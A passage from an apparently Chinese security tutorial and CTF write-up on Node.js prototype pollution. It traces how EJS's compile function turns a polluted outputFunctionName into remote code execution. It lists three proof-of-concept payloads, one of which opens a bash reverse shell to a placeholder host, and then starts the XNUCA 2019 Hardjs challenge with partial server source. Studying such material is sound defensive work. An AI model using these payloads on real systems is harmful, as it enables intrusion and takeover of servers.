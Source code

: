 发现 renderFile 中又调用了 tryHandleCache 方法，跟进 tryHandleCache：
- node_modules/ejs/ejs.js
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t019c31ddb904e7e82f.png)

进入到 handleCache 方法，跟进 handleCache：
- node_modules/ejs/ejs.js
[![](https://p2.ssl.qhimg.com/t010b76e57ef35e8bb8.png)](https://p2.ssl.qhimg.com/t010b76e57ef35e8bb8.png)

在 handleCache 中找到了渲染模板的 compile 方法，跟进 compile：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t014e8db4d019656690.png)

发现在 compile 中存在大量的渲染拼接。这里将 `opts.outputFunctionName` 拼接到 prepended 中，prepended 在最后会被传递给 this.source 并被带入函数执行。所以如果我们能够污染 `opts.outputFunctionName`，就能将我们构造的 payload 拼接进 js 语句中，并在 ejs 渲染时进行 RCE。在 ejs 中还有一个 `render` 方法，其最终也是进入了 `compile`。最后给出几个 ejs 模板引擎 RCE 常用的 POC：

```
`{`"__proto__":`{`"outputFunctionName":"_tmp1;global.process.mainModule.require(\'child_process\').execSync('calc');var __tmp2"`}``}`

`{`"__proto__":`{`"outputFunctionName":"_tmp1;global.process.mainModule.require(\'child_process\').exec('calc');var __tmp2"`}``}`

`{`"__proto__":`{`"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i &gt;&amp; /dev/tcp/xxx/6666 0&gt;&amp;1\"');var __tmp2"`}``}`
```

### <a class="reference-link" name="%5BXNUCA%202019%20Qualifier%5DHardjs"></a>[XNUCA 2019 Qualifier]Hardjs

进入题目是一个登录页面：

[![](https://p4.ssl.qhimg.com/t0139938a086c6ae730.png)](https://p4.ssl.qhimg.com/t0139938a086c6ae730.png)

关键源码如下：
- server.js
```
const fs = require('fs')
const express = require('express')
const bodyParser = require('body-parser')
const lodash = require('lodash')
const session = require('express-session')
const randomize = require('randomatic')
const mysql = require('mysql')
const mysqlConfig = require("./config/mysql")
const ejs = require('ejs')

...

app.get("/get",auth,async function(req,res,next)`{`

    var userid = req.session.userid ; 
    var sql = "select count(*) count from `html` where userid= ?"
    // var sql = "select `dom` from  `html` where userid=? ";
    var dataList = await query(sql,[userid]);

    if(dataList[0].count == 0 )`{`
        res.json(`{``}`)

    `}`else if(dataList[0].count &gt; 5) `{` // if len &gt; 5 , merge all and update mysql

```